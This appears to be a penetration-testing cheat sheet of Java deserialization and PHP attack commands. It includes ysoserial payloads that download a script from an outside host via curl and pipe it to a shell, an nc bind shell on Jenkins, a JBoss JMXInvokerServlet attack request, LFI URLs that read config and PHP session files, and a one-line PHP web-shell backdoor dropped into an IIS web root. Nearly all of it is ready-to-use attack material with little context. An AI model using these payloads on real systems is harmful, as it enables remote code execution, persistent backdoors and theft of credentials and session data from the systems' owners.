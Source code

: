 ### Java Deserialization

[Java Deserialization Cheat Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet)

[How to get a full shell through Java Runtime.exec](http://codewhitesec.blogspot.de/2015/03/sh-or-getting-shell-environment-from.html)

Ysoserial payload to execute full commands
```
    sh -c $@|sh . <payload here>
```

Generate a ysoserial payload to tell server to download further commands via curl and pipe to shell
```
    java -jar ysoserial-0.0.4-all.jar CommonsCollections1 'sh -c $@|sh . curl http://10.42.65.40/commands.sh |sh' > jenkins_curl_shell.bin
```

Generate a ysoserial payload to execute nc bind shell
```
    java -jar ysoserial-0.0.4-all.jar CommonsCollections1 'sh -c $@|sh . nc -lp 8088 -e /bin/bash' > nc-jenkins.out
```

#### JMXInvokerServlet
```
    ./ysoserial-master-v0.0.4-gad26e2b-61.jar CommonsCollections5 "touch /tmp/pwned" >payload.txt
```

Generate payload with yososerial and send with Burp. You will get a jboss.invocation.InvocationException response on success or failure. 

Ensure the headers match these:
```
    POST /invoker/JMXInvokerServlet HTTP/1.1
    Host: <hostname/IP>:8080
    Content-Type:application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue
    Content-Length: 2083
```

#### PHP

LFI Read File (without executing)
```
    www.example.com/index.php?page=php://filter/read=convert.base64-encode/resource=config.php
```

LFI Read PHP session file for current sessionid
```
    http://blog.target.org/blog.php?page=/var/lib/php5/sess_th3cr1i5cm6m3dq98pb2sn9qg5
```

Create PHP backdoor/shell (windows):
``` 
    echo ^<?php echo passthru($_GET['cmd']); ?^> > C:\inetpub\wwwroot\s.php
```

PHP Command Execution Example
```
    Url/page.php?page=system&help=cmd
    
    @extract ($_REQUEST); 
    @die ($page($help));
```
